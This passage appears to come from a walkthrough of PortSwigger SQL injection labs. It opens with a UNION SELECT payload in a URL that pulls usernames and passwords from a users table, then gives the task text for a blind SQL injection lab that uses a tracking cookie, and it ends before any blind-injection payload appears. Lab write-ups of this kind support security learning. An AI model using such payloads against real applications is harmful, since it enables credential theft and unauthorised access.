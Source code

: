 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+USERNAME_KIWRQE,PASSWORD_OCABHB+from+USERS_XWRQEE--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/4ddc138c14b5c9bcea389de74f42d71e.png)

11 Blind SQL injection with conditional responses
=================================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and no error messages are
displayed. But the application includes a "Welcome back" message in the page if
the query returns any rows.

The database contains a different table called users, with columns called
username and password. You need to exploit the blind SQL injection vulnerability
to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can assume that the password only contains lowercase, alphanumeric
characters.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

There is a SQL injection in the cookie:

![img](media/6e683201057a5eac4148cd097575ca91.png)

